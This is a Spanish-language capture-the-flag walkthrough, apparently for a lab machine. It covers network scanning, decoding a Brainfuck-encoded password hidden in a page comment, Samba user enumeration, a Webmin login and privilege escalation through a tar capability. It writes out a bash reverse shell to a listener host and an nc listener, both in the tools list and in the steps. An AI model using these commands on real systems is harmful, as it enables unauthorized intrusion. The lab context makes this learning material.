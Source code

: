 Herramientas:
	- arp-scan
	- ping
	- nmap
	- Visor de codigo del navegador
	- https://www.dcode.fr/brainfuck-language
	- enum4linux
	- nc -lvnp 1234
	- bash -i >/dev/tcp/192.168.1.144/1234 0>&1
	- con getcap -r / 2>dev/null
	- ./tar -cf {nombre fichero} /var/backups/.old_pass.bak

reconocimiento de la red:

![[Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Ping y ver TTL.png]]

Conectividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Accedemos al puerto 10000:
![[Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (según mensaje)
y vemos un panel de Login:
![[Panel de Login.png]]

Revisamos el puerto 20000:
![[Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[User Flag from the machine.png]]


nuestro usuario es cyber
![[User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
![[Tratamiento de la TTY.png]]
tenemos que escalar privilegios:
sudo -l no funciona
![[Escalado sudo -l.png]]

Vemos las capabilities:
con getcap -r / 2>dev/null
![[Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Acceso root.png]]
Root flag:
![[Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}




